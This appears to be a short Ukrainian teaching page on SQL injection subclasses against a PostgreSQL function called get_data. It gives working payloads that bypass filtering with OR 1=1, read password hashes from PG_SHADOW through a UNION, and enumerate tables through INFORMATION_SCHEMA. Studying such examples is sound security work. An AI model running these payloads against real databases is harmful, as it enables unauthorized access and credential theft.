



### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>


### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>


### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>

